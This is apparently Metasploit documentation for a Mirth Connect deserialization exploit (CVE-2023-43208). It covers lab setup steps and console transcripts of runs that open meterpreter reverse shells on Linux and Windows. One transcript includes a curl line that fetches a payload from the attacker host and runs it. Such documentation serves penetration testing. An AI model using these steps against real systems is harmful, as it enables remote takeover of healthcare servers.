 ## Vulnerable Application
A vulnerability exists within Mirth Connect due to its mishandling of deserialized data. This vulnerability
can be leveraged by an attacker using a crafted HTTP request to execute OS commands within the context of the
target application. The original vulnerability was identified by IHTeam and assigned CVE-2023-37679. Later,
researchers from Horizon3.ai determined the patch to be incomplete and published a gadget chain which bypassed
the deny list that the original had implemented. This second vulnerability was assigned CVE-2023-43208 and was
patched in Mirth Connect version 4.4.1. This module has been tested on versions 4.1.1, 4.3.0 and 4.4.0.

### Setup (Linux with Docker)

1. Run the application in docker: `docker run --name mirth-connect --rm -d -p 8443:8443 nextgenhealthcare/connect:4.4.0`

### Setup (Windows)

1. Download the desired release from the [GitHub page][1]
2. Install a Java runtime
3. Install Mirth Connect
    1. Accept all default values for every stage of the installation

## Verification Steps

1. Follow the steps from the Setup section to create a test instance
2. Start msfconsole
3. Run: `use exploit/multi/http/mirth_connect_cve_2023_43208`
4. Set the `RHOSTS`, `PAYLOAD` and payload-related options
5. Run the module

## Options

## Scenarios

### Mirth Connect 4.4.0 in Docker

Note that Python is not available in the docker container, so no Python payloads will work.

```
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set TARGET Unix\ Command 
TARGET => Unix Command
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set PAYLOAD cmd/linux/http
Display all 106 possibilities? (y or n)
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > exploit

[*] Command to run on remote host: curl -so /tmp/PFYkPcUX http://192.168.159.128:8080/jvE_gjDKxuQo86-91TitNQ; chmod +x /tmp/PFYkPcUX; /tmp/PFYkPcUX &
[*] Fetch Handler listening on 192.168.159.128:8080
[*] HTTP server started
[*] Adding resource /jvE_gjDKxuQo86-91TitNQ
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected target version: 4.1.1
[+] The target appears to be vulnerable. Version 4.1.1 is affected by CVE-2023-37679.
[*] Executing cmd/linux/http/x64/meterpreter/reverse_tcp (Unix Command)
[*] Client 192.168.159.128 requested /jvE_gjDKxuQo86-91TitNQ
[*] Sending payload to 192.168.159.128 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.159.128
[*] Meterpreter session 6 opened (192.168.159.128:4444 -> 192.168.159.128:49360) at 2024-01-26 17:11:37 -0500

meterpreter > getuid
Server username: mirth
meterpreter > sysinfo
Computer     : 10.0.2.100
OS           : Debian 11.4 (Linux 6.6.12-200.fc39.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/connect
meterpreter >
```

### Mirth Connect 4.4.0 on Windows Server 2019

```
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set TARGET Windows\ Command 
TARGET => Windows Command
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set PAYLOAD cmd/windows/powershell/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/powershell/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > run

[*] Powershell command length: 4418
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected target version: 4.4.0
[+] The target appears to be vulnerable. Version 4.4.0 is affected by CVE-2023-43208.
[*] Executing cmd/windows/powershell/x64/meterpreter/reverse_tcp (Windows Command)
[*] Sending stage (201798 bytes) to 192.168.159.10
[*] Meterpreter session 5 opened (192.168.159.128:4444 -> 192.168.159.10:60705) at 2024-01-26 17:10:20 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 13
Meterpreter     : x64/windows
meterpreter > pwd
C:\Program Files\Mirth Connect
meterpreter > 
```

[1]: https://github.com/nextgenhealthcare/connect/releases

